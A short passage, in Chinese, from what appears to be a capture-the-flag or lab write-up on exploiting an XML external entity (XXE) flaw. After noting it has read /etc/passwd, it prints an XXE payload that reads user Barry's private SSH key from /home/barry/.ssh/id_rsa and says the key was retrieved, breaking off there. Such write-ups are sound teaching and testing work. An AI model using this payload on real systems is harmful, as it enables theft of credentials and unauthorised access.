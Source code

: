 ![](img/10b95a66dcbabc096ec48cee743fa807.png)

读取/etc/passwd 文件内容

现在我已经确认我可以读取文件，下一步是根据前面找到的开发人员注释检索用户 Barry 的 SSH 密钥:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM 'file:////home/barry/.ssh/id_rsa'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Joe</author>
<com>&xxe;</com>
</comment>
```

使用上面的 XML 注入，我能够检索 SSH 密钥:
